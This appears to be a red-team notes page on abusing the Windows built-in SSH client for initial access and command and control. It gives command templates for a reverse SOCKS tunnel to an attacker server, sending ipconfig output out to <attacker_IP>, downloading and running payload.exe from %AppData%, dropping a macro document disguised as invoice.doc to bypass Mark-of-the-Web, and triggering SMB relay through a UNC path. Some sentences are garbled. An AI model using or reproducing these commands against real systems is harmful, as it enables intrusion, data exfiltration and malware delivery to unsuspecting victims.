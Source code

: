 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - living-off-the-foreign-land
  - living-off-the-land
  - windows
---
```

# Remote Clients

## SSH

Refer to this [[04 - Remote Port Forwarding|section]] for remote port forwarding to configure the user without any requirement for authentication.

### Reverse Tunneling SOCKS Proxy

Instead of dropping malware instead we'll use `proxychains` or `privoxy` with the SSH server (the attacker's server) as the command and control which is legitimate, safer, and more familiar performing things remotely. This is considered as a non-malware payload.

```
C:\Windows\System32\OpenSSH\ssh.exe [-p <PORT>] -NTfCqR [127.0.0.1:]<SOCKS_proxy> -o "StrictHostKeyChecking=no"
%SYSTEMDIRECTORY%\OpenSSH\ssh.exe [-p <PORT>] -NTfCqR [127.0.0.1:]<SOCKS_proxy> -o "StrictHostKeyChecking=no"
```

In the SSH server we should see a listening port of the SOCKS Proxy.

```
$ ss -antpl
```

However, there is a limitation since it contains no limitation. To resolve this issue you must perform local enumeration to gather information of the compromised target that was established via SSH. Include a shell scripting file or a custom dropper containing commands to automate the process. It doesn't have to be all of them but the more the better. At least collect the IPv4 address.

```
ipconfig /all | C:\Windows\System32\OpenSSH\ssh.exe [-p <PORT>] "cat - > %COMPUTERNAME%_IP_configuration.txt"
ipconfig /all | %SYSTEMDIRECTORY%\OpenSSH\ssh.exe [-p <PORT>] "cat - > %COMPUTERNAME%_IP_configuration.txt"
```

### Download File and Execute

Transfer file to the system.

```
C:\Windows\System32\OpenSSH\ssh.exe [-p <PORT>] -o "StrictHostKeyChecking=no PermitLocalCommand=yes" -o "LocalCommand=scp [-P <PORT>] <username>@<attacker_IP>:payload.exe %AppData%\Microsoft\Templates\payload.exe\. && %APPDATA%\Microsoft\Templates\payload.exe" <username>@<attacker_IP>
```

TODO: This can be used to transfer embedded macro document to bypass MOTW.

```
C:\Windows\System32\OpenSSH\ssh.exe [-p <PORT>] -o "StrictHostKeyChecking=no PermitLocalCommand=yes" -o "LocalCommand=scp [-P <PORT>] <username>@<attacker_IP>:macro_document.doc %AppData%\Microsoft\Templates\invoice.doc\. && %APPDATA%\Microsoft\Templates\invoice.doc" <username>@<attacker_IP>
```

### SMB Relay

For SSH server it doesn't to be from an attacker side. It can a real one as long the UNC path is set in order to execute command to perform SMB relay attack.

```
C:\> ssh -i \\<attacker_IP>\key.pem root@<IP>
```

---
## References

### Backlinks

- [[SCP|File Transfer: SCP]]

### LOLBAS

- [LOLBAS: SSH](https://lolbas-project.github.io/lolbas/Binaries/Ssh/)

### Bitsadmin

- [BITSADMIN Blog: Living Off the Foreign Land](https://blog.bitsadmin.com/living-off-the-foreign-land-windows-as-offensive-platform)

### RedSiege

- [RedSiege: SSHishing - Abusing Shortcut Files and the Windows SSH Client for Initial Access](https://redsiege.com/blog/2024/04/sshishing-abusing-shortcut-files-and-the-windows-ssh-client-for-initial-access/)

### JumpSec

- [JumpSec: SSH Tunnelling to Punch Through Corporate Firewalls - Updated take on one of the oldest LOLBINs](https://labs.jumpsec.com/ssh-tunnelling-to-punch-through-corporate-firewalls-updated-take-on-one-of-the-oldest-lolbins/)

- [JumpSec: Bring Your Own Trusted Binary (BYOTB) - BSides Edition](https://labs.jumpsec.com/bring-your-own-trusted-binary-byotb-bsides-edition/)